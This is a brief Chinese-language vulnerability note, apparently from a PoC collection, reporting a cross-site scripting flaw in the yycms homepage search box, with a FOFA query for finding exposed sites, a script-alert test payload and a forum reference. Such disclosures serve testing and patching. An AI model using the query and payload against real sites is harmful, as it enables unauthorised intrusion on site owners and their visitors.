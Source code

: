 # yycms首页搜索框 XSS漏洞


**FOFA:**

```
body="templets/yycms/css/"
```

**PoC：**

```
<script>alert(/xss/)</script>
```

ref：

https://forum.ywhack.com/thread-114996-1-1.html